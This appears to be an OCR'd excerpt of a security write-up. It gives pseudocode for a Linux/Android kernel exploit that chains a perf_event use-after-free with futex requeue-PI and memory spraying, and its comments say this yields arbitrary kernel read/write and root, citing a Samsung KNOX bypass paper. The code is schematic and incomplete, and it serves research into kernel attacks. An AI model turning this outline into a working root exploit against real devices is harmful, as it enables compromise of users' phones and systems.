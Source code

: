 ```c=
  {
    addr = mmap((void*)start_addr, alloc_size);

    while ( addr < &v1[alloc_size] )
    {
      // Refer to struct `perf_event_context` in include/linux/perf_event.h.   
      *(unsigned long*)addr = pmu_addr;
      addr += 512LL;
    }
    mlock(addr, alloc_size);
    start_addr += alloc_size;
  }
}
void prepare()
{
    pmu_addr = mmap(pmu_address) // you mmap a memory range in user space.
    init_pmu(pmu_addr); // init the fake pmu 
    lift_spray();
}
void *thread_1_for_alloc()
{
    group_id = perf_event_open(pid, PERF_TYPE_SOFTWARE);
    sem_post(&sem);
    futex(FUTEX_WAIT_REQUEUE_PI); // wait for waking up.
    
    if (read_at_address_pipe(Kernel_space))	
			puts("Turn UAF bug to arbitrary read/write memory");
    /* While exploit execute here, representing you can read/write arbitrary memory.
     * it's convenient to get the root priv. just like `towelroot`.
     */
}
void *thread_for_free()
{
    perf_event_open(pid, PERF_TYPE_HARDWARE, group_id);
    sem_post(&sem);
    futex() // go to sleep.
}
int trigger()
{
    thread_create(thread_1_for_alloc);
    thread_create(thread_for_free);
    thread_create(thread_for_free);
    
    sem_wait(&sem);
    sem_wait(&sem);
    sem_wait(&sem);
    stop_lift_spray();
    
    phymaps_spray();
    
    futex(FUTEX_CMP_REQUEUE_PI); /* wake up thread_1_for_alloc */
}
void main()
{
    prepare();
    trigger();
}

```
## Reference
[1] Defeating Samsung KNOX with zero
privilege